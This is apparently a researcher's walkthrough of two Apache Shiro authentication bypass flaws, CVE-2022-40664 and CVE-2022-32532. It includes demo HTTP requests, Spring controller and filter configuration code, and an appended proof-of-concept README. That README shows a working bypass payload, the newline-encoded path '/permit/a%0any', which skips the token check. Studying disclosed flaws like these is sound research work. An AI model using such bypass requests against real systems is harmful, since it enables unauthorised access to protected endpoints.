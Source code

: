 # CVE-2022-40664 research walkthrough

> Apache Shiro before 1.10.0, Authentication Bypass Vulnerability in Shiro when forwarding or including via RequestDispatcher.

[![CVE-2022-40664 research walkthrough](https://image.isisy.com/images/2022/10/25/CVE-2022-40664-Research-Walkthrough2x.md.png)](https://youtu.be/mQrGYHKD8pk)

## walkthrough[^1]

```http
GET /admin/auth_pass HTTP/1.1
```

```http
GET /admin/auth HTTP/1.1
```

```http
GET /admin/auth HTTP/1.1
Token: 4ra1n
```

## exchange redirect from forward ?[^3]

```java
    @RequestMapping("/admin/{value}")
    public String CVE_2022_40664_bypass(@PathVariable String value, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        System.out.println("=========== /admin" +((HttpServletRequest)request).getRequestURI()+ "/ ===========");
        //        request.getRequestDispatcher("/admin/auth").forward(request, response);
        //        return "forward:"+((HttpServletRequest)request).getRequestURI();
        response.sendRedirect("/admin/auth");
        return ("Redirect:/admin/auth");
    }
```

forward[^4]

```java
request.getRequestDispatcher("/admin/auth").forward(request, response);
```

## shiro 1.10.0

Define Bean[^2]

[SecurityManager](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheShiro/CVE-2022-40664/src/main/java/com/example/shirodemo/ShiroConfig.java#L21)[^5]{:target="_blank"}

```java
@Bean
public MyShiroFilterFactoryBean filterRegBean(SecurityManager securityManager) throws Exception{
        // CVE-2022-40664
        // fixed conf
        ShiroFilterConfiguration conf=new ShiroFilterConfiguration();
        conf.setFilterOncePerRequest(false);

        ShiroFilterFactoryBean shiroFilterFactoryBean=new ShiroFilterFactoryBean();
        shiroFilterFactoryBean.setSecurityManager(securityManager);
        shiroFilterFactoryBean.setShiroFilterConfiguration(conf);
        AbstractShiroFilter filter=shiroFilterFactoryBean.getObject();

        MyShiroFilterFactoryBean reg=new MyShiroFilterFactoryBean();
        reg.setFilter(filter);
        reg.addUrlPattern("/*");
        reg.setName("shiroFilter");
        reg.setSecurityManager(securityManager);
        reg.setDispatcherTypes(EnumSet.allOf(DispatcherType.class));
        //fixed conf end.
        return reg;
        }
```

Do not work.

## reference

[^1]: [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532){:target="_blank"}
[^2]: [defining a bean named 'shiroFilterFactoryBean'](https://blog.csdn.net/hanzl1/article/details/104228376){:target="_blank"}
[^3]: [CVE-2022-40664](https://juejin.cn/post/7154702383720136718#heading-0){:target="_blank"}
[^4]: [Shiro 1.7和1.10对于forward请求的处理](https://blog.csdn.net/xyjy11/article/details/127324055){:target="_blank"}
[^5]: [SpringBoot整合shiro-spring-boot-web-starter](https://blog.csdn.net/liu320yj/article/details/109090797){:target="_blank"}
[^6]: [[ANNOUNCE][CVE-2022-32532] Apache Shiro 1.9.1 released](https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh){:target="_blank"}

# [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532)

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)